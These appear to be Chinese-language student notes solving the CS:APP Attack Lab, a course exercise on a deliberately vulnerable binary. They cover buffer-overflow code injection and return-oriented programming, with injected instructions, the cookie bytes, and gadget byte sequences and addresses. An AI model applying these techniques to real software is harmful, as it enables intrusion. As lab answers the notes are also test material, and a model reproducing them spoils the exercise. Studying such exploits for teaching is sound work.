 # Code Inject

## Phase-1
1. `getbuf`的栈帧是40Byte，以及8Byte的返回地址。
2. 通过`getbuf`48个Byte，就可以改变返回地址。
3. 改变返回地址为 `touch1` 的首地址，程序跳转到`touch1`

## Phase-2
1. 修改`getbuf`的返回地址 => 输入的机器指令首地址
2. 需要的机器指令
    1. `touch2` 需要参数传递，需要将`cookie`传到 `rdi`寄存器中：mov    $0x59b997fa,%rdi
    2. 修改 `rsp`，将`rsp`指向 `touch2` 的首地址（**这一步可以用pushq，把地址压栈**）
    3. `retq`，根据`rsp`存储位置的地址，跳转
    4. `nop`
    5. `touch2` 的首地址

## Phase-3
1. 修改`getbuf`的返回地址 => 输入的机器指令首地址
2. `hexmatch` 和 `strncmp` 会往栈里压数据，导致数据被覆盖，将字符串 填充 在 返回地址 后面
3. 字符串后面跟需要`\0`
4. 需要的机器指令
    1. 字符串首地址要传给 `rdi`，由`rdi`在`touch3`中传给`hexmatch`，作为第二个参数
    2. 用`pushq`，把`touch3`地址压栈
    3. `retq`，根据`rsp`当前存储地址，跳转
    4. `nop`
    5. `touch2` 的首地址
    6. 字符串`59b997fa` => `35 39 62 39 39 37 66 61`

# Return-Oriented Programming

## Phase-4
1. 跳转到指定的gadget：
    1. 传递参数 `0x59b997fa` 给 `rdi`
    2. `popq %rax`：先得到cookie，再`rsp`指向下一个gadget
    3. `movq $rax %rdi`：将cookie传给`rdi`，作为touch2的参数
2. `rsp`地址为 `4017ec` 跳转到 `touch2`

`movq %rax %rdi`
+ addval_273: 48 89 c7 c3               4019a2
+ setval_426: 48 89 c7 90 c3

`movq $rsp $rax`
+ addval_190: 48 89 e0 c3               401a06
+ setval_350: 48 89 e0 90 c3

`popq $rax`
+ getval_280: 58 90 c3                  4019cc
+ addval_219: 58 90 c3

## Phase-5
由于地址是8位的，必须使用`movq`从rsp传到rdi中
偏移量不会达到8位，因此可以使用`movl`

1. movq %rsp %rax
2. movq %rax %rdi
3. popq %rax
4. bias = 0x50
5. movl %eax %edx
6. movl %edx %ecx
7. movl %ecx %esi
8. lea (%rdi,%rsi,1),%rax
9. movq %rax %rdi
10. touch3_addresss
11. str + '\0'


`lea (%rdi,%rsi,1),%rax`
+ add_xy: 48 8d 04 37 c3                4019d6


`movl %ecx %esi`
addval_436: 89 ce 90 90 c3              401a13

`movl %edx %ecx`
getval_159: 89 d1 38 c9                 401a34
> 38 c9 是 `cmpb %cl %cl`，不会改变寄存器

`movl %eax %edx`
getval_481: 89 c2 90                    4019dd